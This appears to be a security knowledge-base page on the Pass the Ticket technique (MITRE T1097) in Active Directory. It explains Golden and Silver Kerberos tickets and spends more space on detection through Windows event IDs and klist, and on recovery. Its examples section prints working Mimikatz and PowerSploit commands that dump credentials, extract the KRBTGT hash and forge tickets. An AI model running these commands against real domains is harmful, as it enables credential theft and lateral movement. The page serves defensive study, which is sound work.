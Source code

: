 ﻿# T1097 - Pass the Ticket

## Attributes

- Tactic: Lateral Movement
- Effective Permissions: Not Specified
- Data Sources: Authentication logs

## Description

Pass the Ticket is an attack method that can allow an attacker to authenticate to a system using Kerberos tickets without knowledge of a users password.

This attack falls into two categories, Golden Ticket and Silver Ticket.

Golden Tickets are obtained on a Domain Controller from the Key Distribution Service account NTLM hash, this account is named KRBTGT. A Golden Ticket will enable an attacker to generate a TGT for any account in Active Directory.

Silver Tickets attacks are performed by crafting a TGS for a service account. A service account is a special account that is used by an application, such as SQL Server. In order to create a forged TGS the password or password hash must be known by an attacker.

## Tools to Perform Attack

- Mimikatz
  - A tool that has the capability to gather credential data from a Windows System (Passwords, NTLM hash, TGT, TGS).
  - Mimikatz exists as an executable that can be run on Windows directly.
- PowerSploit
  - Powershell post-exploitation framework
  - Mimikatz can be loaded into memory using ```Invoke-Mimikatz```
- Empire
  - Powershell and Python post-exploitation framework.
  - Can leverage its own implementation of Mimikatz to obtain and use Silver and Golden tickets.

### Examples

The following command is run using PowerSploit, it can execute Mimikatz on remote computers to gather credentials:

```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("computer1", "computer2")
```

The following is run in Mimikatz, these commands will allow an attacker to retrieve the hash of the KRBTGT account from a Domain Controller.

```shell
 privilege::debug
 lsadump::lsa /inject /name:krbtgt
```

The following command is run in Mimikatz, it can be used to create a Golden Ticket:

```shell
kerberos::golden /admin:ADMIINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt
```

The following command is run in Mimikatz, it can be used to create a Silver Ticket for a CIFS service on the server adsmswin2k8r2.lab.adsecurity.org:

```shell
kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt
```

### Other Information

#### Kerberos Protocol

The following diagram shows the steps taken to authenticate to a server using Kerberos.

![Simple Kerberos Diagram](https://www.varonis.com/blog/wp-content/uploads/2018/07/Kerberos-Graphics-1-v2-787x790.jpg)

#### Types of Tickets

The Ticket Granting Ticket (TGT) is a ticket used to prove to the Key Distribution Center (KDC), located on the Domain Controller, that a user is authenticated. The contents of the TGT are encrypted with the KRBTGT NTML hash, this ticket should only be read by the KDC.

The Ticket Granting Service (TGS) is a ticket used to prove to a service that a user is authenticated, this ticket contains data that can only be decrypted by the service.

## Detection

### Monitoring

#### Kerberos Logs

- The following Windows Event IDs are related to Kerberos:

  - Event [ID 4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) is created for every TGT request.

  - Event [ID 4769](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4769) is created for every TGS request.

  - Event [ID 4770](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4770) is created for every TGT renew.

Using these event ID the analyst must look for anything out of the ordinary. For example if a TGS request or TGT renew is seen the analyst can look back in time to check if there is TGT request that match's the computer and user.

#### Golden Ticket Detection

- Golden Ticket events may have one of these issues:
  - The Account Domain field is blank when it should be DOMAIN.
  - The Account Domain field is DOMAIN FQDN when it should be DOMAIN.

- Event ID: 4624 (Account Logon)
  - Account Domain is FQDN & should be short domain name
  - Account Domain:        LAB.ADSECURITY.ORG   [ADSECLAB]

- Event ID: 4672 (Admin Logon)
  - Account Domain is blank & should be short domain name
  - Account Domain:        _______________   [ADSECLAB]

#### Silver Ticket Detection

- Silver Ticket events may have one of these issues:
  - The Account Domain field is blank when it should be DOMAIN
  - The Account Domain field is DOMAIN FQDN when it should be DOMAIN.

- Event ID: 4624 (Account Logon)
  - Account Domain is FQDN & should be short domain name
  - Account Domain:        LAB.ADSECURITY.ORG   [ADSECLAB]

- Event ID: 4634 (Account Logoff)
  - Account Domain is blank & should be short domain name
  - Account Domain:        _______________   [ADSECLAB]

- Event ID: 4672 (Admin Logon)
  - Account Domain is blank & should be short domain name
  - Account Domain:        _______________   [ADSECLAB]

### Detecting on Endpoint

A blog [post](https://blog.stealthbits.com/detect-pass-the-ticket-attacks) writes about a useful way to detect pass the ticket attacks on an endpoint machine.

The steps layed out in the blog post are as follows:

1. Look at the current logon sessions on that system
    - A Powershell [Get-LoggedOnUsers](https://github.com/tmmtsmith/Powershell/blob/master/Get-LoggedOnUsers.ps1) function can be used to view current logged on users.
2. Use the klist command to inspect the Kerberos tickets associated with that session
    - ```klist -li NAME``` command can be used to get associated tickets.
3. Look for Kerberos tickets that do not match the user associated with the session.  If found, that means those were injected into memory and a pass-the-ticket attack is afoot.  
  
#### Example

The following shows at example. The first red rectangle is a session for a user Micheal. However, the second rectangle shows from the ```klist``` command that the TGT is for the user Gene.
![Detect Pass The Ticket Example](https://blog.stealthbits.com/wp-content/uploads/2019/02/image-28.png)

## Mitigation

### Logon Rights

There should be a minimum amount of Domain Administrators that have the right to logon to a DC.

### Golden Ticket Recovery

To recover from a Golden Ticket attack the KRBTGT user account password will have to be reset twice.

### Silver Ticket Recovery

To recover from a Silver Ticket attack the service account password will have to be reset.

## References

- **T1097**
  - [T1097](https://attack.mitre.org/techniques/T1097/)
  - [How does Kerberos work? – Theory](https://www.tarlogic.com/en/blog/how-kerberos-works/)
  - [How to attack Kerberos?](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)
  - [Silver Ticket Attack](https://adsecurity.org/?p=2011)
  - [Good Video on Kerberos Protocol](https://www.youtube.com/watch?v=WXgKiiFqJbI)
  - [Detecting Forged Kerberos Ticket (Golden Ticket & Silver Ticket) Use in Active Directory](https://adsecurity.org/?p=1515)
  - [Detect Pass the Ticket Attacks](https://blog.stealthbits.com/detect-pass-the-ticket-attacks)
